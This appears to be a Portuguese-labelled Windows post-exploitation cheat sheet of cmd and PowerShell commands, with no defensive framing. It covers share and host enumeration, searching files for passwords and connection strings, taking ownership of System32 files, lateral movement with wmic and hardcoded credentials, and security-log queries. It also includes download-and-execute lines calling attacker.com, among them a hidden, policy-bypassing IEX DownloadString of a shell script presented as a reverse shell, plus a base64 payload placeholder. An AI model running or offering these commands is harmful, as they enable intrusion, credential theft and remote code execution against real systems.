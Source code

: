 ```powershell

# 📦 COMPARTILHAMENTOS E REDE LOCAL
net share
net view
net view \\192.168.0.1
nbtstat -A 192.168.0.1

# 🔍 ENUMERAÇÃO E RECONHECIMENTO
dir /s /b *.ps1 *.bat *.vbs *.txt *.log *.conf *.ini 2>nul
findstr /si "password" *.txt *.xml *.ini *.config *.ps1 *.bat
Get-ChildItem -Path C:\ -Include *.txt,*.xml,*.ini -Recurse -ErrorAction SilentlyContinue | Select-String -Pattern "password"

# 🗃️ AUDITORIA E LOGS
wevtutil qe Security /f:text /c:10
wevtutil el
Get-EventLog -LogName Security -Newest 20
Get-WinEvent -LogName Security | Format-List -Property *

# 🧰 UTILITÁRIOS E TRUQUES DE SEGURANÇA
cipher /w:C\
takeown /f C:\Windows\System32\file.dll
icacls C:\Windows\System32\file.dll /grant %USERNAME%:F

# 🕵️ PERSISTÊNCIA, ENUMERAÇÃO AVANÇADA E LATERAL
net use Z: \\192.168.0.100\C$
wmic /node:192.168.0.10 /user:admin /password:123456 process call create "cmd.exe /c whoami"
powershell -c "Invoke-WebRequest http://attacker.com/shell.exe -OutFile C:\Users\Public\shell.exe"
reg query HKLM\Software\Microsoft\Windows\CurrentVersion\Run

# 📥 BAIXAR ARQUIVOS COM POWERSHELL
Invoke-WebRequest -Uri "http://site.com/file.exe" -OutFile "file.exe"
Start-BitsTransfer -Source "http://site.com/payload.exe" -Destination "C:\payload.exe"

# 💣 COMANDO SIMPLES PARA REVERSO/CONEXÃO
powershell -NoP -NonI -W Hidden -Exec Bypass -Command "IEX(New-Object Net.WebClient).DownloadString('http://attacker.com/shell.ps1')"
cmd.exe /c powershell -e <base64_payload>

# 🔒 ENCONTRAR SENHAS EM ARQUIVOS
findstr /si "password" *.config *.xml *.ini *.txt
findstr /si "connectionString" *.config

# 🧠 COMANDO ÚNICO DE ENUMERAÇÃO GERAL
echo [+] SYSTEM INFO && systeminfo && echo [+] USERS && net user && echo [+] ADMINS && net localgroup administrators && echo [+] PROCESSES && tasklist && echo [+] CONNECTIONS && netstat -ano

# 🧠 ENUMERAÇÃO AVANÇADA EM POWERSHELL
$env:USERNAME; Get-LocalUser; Get-LocalGroup; Get-LocalGroupMember "Administrators"; Get-NetIPAddress; Get-Service | ? Status -eq "Running"; Get-EventLog -LogName Security -Newest 5


